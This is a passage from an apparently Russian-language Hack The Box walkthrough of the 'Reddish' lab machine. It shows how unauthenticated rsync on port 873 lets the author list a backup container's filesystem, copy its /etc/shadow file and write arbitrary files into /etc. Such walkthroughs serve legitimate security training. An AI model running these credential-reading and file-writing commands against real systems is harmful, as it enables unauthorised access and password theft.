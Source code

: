 ```
www-data@www:/$ ping -c1 backup
ping: icmp open socket: Operation not permitted
```

Делать это нужно из привилигированного шелла, потому что у юзера `www-data` не хватает прав для открытия нужного сокета.

```
root@www:~# ping -c1 backup
PING backup (172.20.0.2) 56(84) bytes of data.
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.2): icmp_seq=1 ttl=64 time=0.051 ms

--- backup ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.051/0.051/0.051/0.000 ms
```

Таким нехитрым способом мы убедились, что адрес `backup` — `172.20.0.2`. Дополним карту сетевых взаимодействий.

![network-map-6.png](/assets/images/htb/machines/reddish/network-map-6.png)
{:.center-image}

Сетевая карта. Часть 6: Локализация контейнера backup
{:.quote}

Теперь вернемся к рассуждению выше: у нас есть доступ к `www` и есть `rsync` без аутентификации (на 873-м порту), следовательно, у нас есть права на чтение/запись в файловую систему `backup`.

Например, я могу просмотреть корень ФС `backup`.

```
www-data@www:/tmp$ rsync rsync://backup:873/src/
...
```

![www-rsync-read-root.png](/assets/images/htb/machines/reddish/www-rsync-read-root.png)
{:.center-image}

Или прочитать файл `shadow`.

```
www-data@www:/tmp$ rsync -a rsync://backup:873/etc/shadow .
www-data@www:/tmp$ cat shadow
...
```

![www-rsync-read-shadow.png](/assets/images/htb/machines/reddish/www-rsync-read-shadow.png)
{:.center-image}

А также записать любой файл в любую директорию на `backup`.

```
www-data@www:/tmp$ echo 'HELLO THERE' > .test
www-data@www:/tmp$ rsync -a .test rsync://backup:873/etc/
-rw-r--r--             12 2020/02/02 16:25:49 .test
```
